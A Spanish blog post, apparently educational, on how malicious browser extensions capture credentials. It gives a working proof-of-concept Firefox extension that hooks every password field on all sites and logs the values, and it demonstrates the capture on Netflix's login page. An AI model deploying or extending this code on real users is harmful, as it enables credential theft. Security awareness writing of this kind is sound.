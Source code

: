 ```yaml
---
layout: post
title: Extensiones maliciosas capturando credenciales 
category: hacking,extension,web,javascript
permalink: "blog/extensiones-maliciosas"
published: yes
---
```




# Protegiendo tu navegador: Cómo las extensiones maliciosas pueden comprometer tus credenciales

Las extensiones del navegador, diseñadas para mejorar nuestra experiencia en línea pueden convertirse en una herramienta peligrosa si esta creada para propositos maliciosos.
Pueden usarse por ejemplo para:
* Robo de datos: Pueden capturar información posible sensible como contraseña y datos bancarios
* Seguimiento no autorizado: Rastrean la actividad de navegación del usuario sin su consentimiento
* Inyección de anuncios: Insertan publicidad no deseada en las páginas web visitadas.
* Botnet: Utilizan los recursos del navegador para actividades maliciosas en red

Estas extensiones aprovechan los permisos otorgados por el usuario para acceder a datos sensibles y realizar acciones no autorizadas.

### Prueba de Concepto - Ejemplo

Una prueba de concpeto básica podría involucrar la creación de una extensión para Firefox que observe los campos de contraseña. Un ejemplo simplificado:

1. Crea un nuevo directorio para tu extensión, ejemplo: Observer
2. Crea un archivo `manifest.json`
```js
{
  "manifest_version": 2,
  "name": "Password Observer",
  "version": "1.0",
  "description": "Observa campos de contraseña (solo para fines educativos)",
  "permissions": ["<all_urls>"],
  "content_scripts": [
    {
      "matches": ["<all_urls>"],
      "js": ["content.js"]
    }
  ]
}
```

3. Creamos un archivo `content.js` donde esta la lógica del código

```js
function observePasswords() {
  const passwordFields = document.querySelectorAll('input[type="password"]');
  
  passwordFields.forEach(field => {
    field.addEventListener('change', function(e) {
      console.log('Contraseña capturada:', e.target.value);
      // En un escenario real, aquí se enviarían los datos a un servidor externo
    });
  });
}

observePasswords();

// Observar cambios en el DOM para capturar campos añadidos dinámicamente
const observer = new MutationObserver(mutations => {
  for(let mutation of mutations) {
    if(mutation.type === 'childList') {
      observePasswords();
    }
  }
});

observer.observe(document.body, { childList: true, subtree: true });
```
Este código observa los campos de contraseña en la página y registra sus valores cuando cambian. En un escenario real de ataque, en lugar de usar console.log, se enviarían estos datos a un servidor externo.

> Para usar esta extensión en Firefox:

1. Abre Firefox y ve a about:debugging
2. Haz clic en "Este Firefox"
3. Haz clic en "Cargar complemento temporal..."
4. Selecciona el archivo manifest.json de tu extensión

![image](https://github.com/user-attachments/assets/03de74b1-9d51-49d1-99b1-d2bd8b2eb6cb)

![image](https://github.com/user-attachments/assets/7887e712-4f8a-4780-baa8-99a5672961b4)

Podemos verificar que la extensión esta habilitada , hacemos la prueba en una plataforma muy conocida de Streaming `Netflix` abrimos la consola de desarrollador con F12 e ingresamos cualquier usuario por ejemplo `test@gmail.com` y la contraseña `extension123!` Podemos ver que al momento de introducir la contraseña y enviar la solicitud nos captura la contraseña en el console.log() de la herramienta de desarrollador. Esto es posible sosfiticarla para capturar el email, cookies, password y enviarlo a un servidor remoto.

![image](https://github.com/user-attachments/assets/14d13568-2918-4781-be9d-afa7a1d49b87)


### Aviso

Es crucial enfatizar que el desarrollo o uso de herramientas para capturar credenciales sin autorización es ilegal y éticamente incorrecto. Esta información se proporciona únicamente con fines educativos para comprender mejor las amenazas de seguridad y cómo protegerse contra ellas.

Saludos.



